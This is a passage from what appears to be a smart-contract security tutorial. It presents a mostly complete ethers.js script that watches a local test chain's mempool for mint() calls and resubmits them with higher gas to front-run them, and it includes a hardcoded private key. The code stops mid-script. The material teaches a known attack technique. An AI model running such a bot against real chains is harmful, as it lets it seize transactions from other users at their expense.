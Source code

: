 **4. Deploy the ethers.js front-running script:** In simple terms, the `frontrun.js` script listens to pending transactions in the test chain's mempool, filters out transactions that call `mint()`, and then duplicates and increases the gas to front-run them. If you are not familiar with `ether.js`, you can read the [WTF Ethers](https://github.com/WTFAcademy/WTF-Ethers) tutorial.

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Create provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork();
network.then(res =>
  console.log(
    `[${new Date().toLocaleTimeString()}] Connected to chain ID ${res.chainId}`,
  ),
);

// 2. Create interface object for decoding transaction details.
const iface = new utils.Interface(["function mint() external"]);

// 3. Create wallet for sending frontrun transactions.
const privateKey =
  "0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a";
const wallet = new ethers.Wallet(privateKey, provider);

const main = async () => {
  // 4. Listen for pending mint transactions, get transaction details, and decode them.
  console.log("\n4. Listen for pending transactions, get txHash, and output transaction details.");
  provider.on("pending", async txHash => {
    if (txHash) {
      // Get transaction details
      let tx = await provider.getTransaction(txHash);
      if (tx) {
        // Filter pendingTx.data
        if (
          tx.data.indexOf(iface.getSighash("mint")) !== -1 &&
          tx.from != wallet.address
        ) {
          // Print txHash
          console.log(
            `\n[${new Date().toLocaleTimeString()}] Listening to Pending transaction: ${txHash} \r`,
          );

          // Print decoded transaction details
          let parsedTx = iface.parseTransaction(tx);
          console.log("Decoded pending transaction details:");
          console.log(parsedTx);
          // Decode input data
          console.log("Raw transaction:");
          console.log(tx);

          // Build frontrun tx
          const txFrontrun = {
            to: tx.to,
            value: tx.value,
            maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
            maxFeePerGas: tx.maxFeePerGas * 1.2,
            gasLimit: tx.gasLimit * 2,
            data: tx.data,
          };
          // Send frontrun transaction
```
